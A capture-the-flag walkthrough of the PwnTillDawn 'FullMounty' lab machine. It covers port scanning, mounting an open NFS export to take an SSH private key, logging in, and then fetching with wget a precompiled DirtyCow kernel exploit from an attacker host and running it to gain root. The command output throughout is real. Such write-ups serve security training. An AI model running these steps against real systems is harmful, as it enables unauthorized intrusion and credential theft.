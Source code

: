 ```yaml
---
categories: [PwnTillDawn]
tags: [Kernel Exploit, DirtyCow, NFS]
image:
  path: /Vulnhub-Files/img/FullMounty/Untitled.png
  alt: Chilakiller -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ cat Nmap_results.txt 
# Nmap 7.94 scan initiated Sun Aug 20 22:14:12 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.134
Nmap scan report for 10.150.150.134
Host is up (0.15s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 5.3p1 Debian 3ubuntu7.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f6:e9:3f:cf:88:ec:7c:35:63:91:34:aa:14:55:49:cc (DSA)
|_  2048 20:1d:e9:90:6f:4b:82:a3:71:1e:a9:99:95:7f:31:ea (RSA)
111/tcp   open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      34154/tcp   mountd
|   100005  1,2,3      50354/udp   mountd
|   100021  1,3,4      45783/tcp   nlockmgr
|   100021  1,3,4      48262/udp   nlockmgr
|   100024  1          38840/udp   status
|_  100024  1          40110/tcp   status
2049/tcp  open  nfs      2-4 (RPC #100003)
8089/tcp  open  ssl/http Splunkd httpd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-28T09:51:59
|_Not valid after:  2022-10-27T09:51:59
|_http-server-header: Splunkd
34154/tcp open  mountd   1-3 (RPC #100005)
40110/tcp open  status   1 (RPC #100024)
45783/tcp open  nlockmgr 1-4 (RPC #100021)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## NFS Shares Enumeration ⤵️

Now I have access to nfs so lets see its shared shares through `showmount` command →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ showmount -e 10.150.150.134
Export list for 10.150.150.134:
/srv/exportnfs 10.0.0.0/8
```
{: .nolineno}

Now lets mount this directory in out local system through `mount` command ⤵️ 

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ mkdir /tmp/nfs
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ sudo mount -v -t nfs -o vers=3,proto=tcp,nolock 10.150.150.134:/srv/exportnfs /tmp/nfs
[sudo] password for kali: 
mount.nfs: timeout set for Mon Sep 18 22:25:38 2023
mount.nfs: trying text-based options 'vers=3,proto=tcp,nolock,addr=10.150.150.134'
mount.nfs: prog 100003, trying vers=3, prot=6
mount.nfs: trying 10.150.150.134 prog 100003 vers 3 prot TCP port 2049
mount.nfs: prog 100005, trying vers=3, prot=6
mount.nfs: trying 10.150.150.134 prog 100005 vers 3 prot TCP port 34154
```
{: .nolineno}

Now lets check if it gets mounted or not with `df` command →

![Untitled](/Vulnhub-Files/img/FullMounty/Untitled%201.png)

Now lets see inside this shares →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ cd /tmp/nfs         
                                                                                                                                
┌──(kali㉿kali)-[/tmp/nfs]
└─$ ls -al
total 36
drwxr-xr-x  5 nobody nogroup 4096 Oct 29  2019 .
drwxrwxrwt 27 root   root    4096 Sep 18 22:23 ..
-rw-------  1 nobody nogroup  667 Oct 29  2019 .bash_history
drwxr-xr-x  5 nobody nogroup 4096 Oct 29  2019 .config
-rw-r--r--  1 kali   kali      41 Oct 22  2019 FLAG49
-rw-r--r--  1 kali   kali    1675 Oct  3  2019 id_rsa
-rw-r--r--  1 kali   kali     397 Oct  3  2019 id_rsa.pub
drwxr-xr-x  3 nobody nogroup 4096 Oct 29  2019 .local
drwxr-xr-x  3 nobody nogroup 4096 Oct 29  2019 .mozilla
                                                                                                                                
┌──(kali㉿kali)-[/tmp/nfs]
└─$ cat FLAG49             
41b779ac4c999468ba7f862cde86412096d1c37b
```
{: .nolineno}

Now I got the id_rsa private key so lets try to SSH into the system →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ ssh deadbeef@10.150.150.134 -i id_rsa
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
Ubuntu 10.04.4 LTS

Welcome to Ubuntu!
 * Documentation:  https://help.ubuntu.com/
New release 'precise' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Aug 12 00:50:59 2020
deadbeef@FullMounty:~$ whoami
deadbeef
deadbeef@FullMounty:~$ id
uid=1000(deadbeef) gid=1000(deadbeef) groups=4(adm),20(dialout),24(cdrom),46(plugdev),107(lpadmin),108(sambashare),109(admin),1000(deadbeef)
deadbeef@FullMounty:~$
```
{: .nolineno}

Now lets dig deeper into the shell for root access , and for that I directly checked the kernel version so I got this →

```bash
deadbeef@FullMounty:/$ uname -an
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
deadbeef@FullMounty:/$
```
{: .nolineno}

Since it is very old Linux machine so lets use the exploit named as dirtycow over here I have the pre-compiled file of it for both architecture of machine x32 and x64 so lets use  x32 over here ⤵️ 

```bash
deadbeef@FullMounty:/tmp$ wget http://10.66.66.178:2323/exploit_32
--2023-09-18 11:18:01--  http://10.66.66.178:2323/exploit_32
Connecting to 10.66.66.178:2323... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12768 (12K) [application/octet-stream]
Saving to: `exploit_32

100%[=====================>] 12,768      65.4K/s   in 0.2s    

2023-09-18 11:18:01 (65.4 KB/s) - `exploit_32 saved [12768/12768]

deadbeef@FullMounty:/tmp$
deadbeef@FullMounty:/tmp$ ./exploit_32
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b784b000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password root.

DONT FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password root.

DONT FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

deadbeef@FullMounty:/tmp$ su firefart
Unknown id: firefart
deadbeef@FullMounty:/tmp$ su evait
Password: 
evait@FullMounty:/tmp# whoami
evait
evait@FullMounty:/tmp#
evait@FullMounty:/tmp# cd /root
evait@FullMounty:~# id
uid=0(evait) gid=0(root) groups=0(root)
evait@FullMounty:~# ls -al
total 28
drwx------  4 evait root 4096 2019-10-03 07:34 .
drwxr-xr-x 22 evait root 4096 2019-10-03 00:10 ..
drwx------  2 evait root 4096 2019-10-03 00:10 .aptitude
-rw-------  1 evait root  150 2020-08-12 02:00 .bash_history
-rw-r--r--  1 evait root 3106 2010-04-23 02:45 .bashrc
drwxr-xr-x  2 evait root 4096 2019-10-03 00:10 .debtags
-rw-r--r--  1 evait root  140 2010-04-23 02:45 .profile
evait@FullMounty:~#
```
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }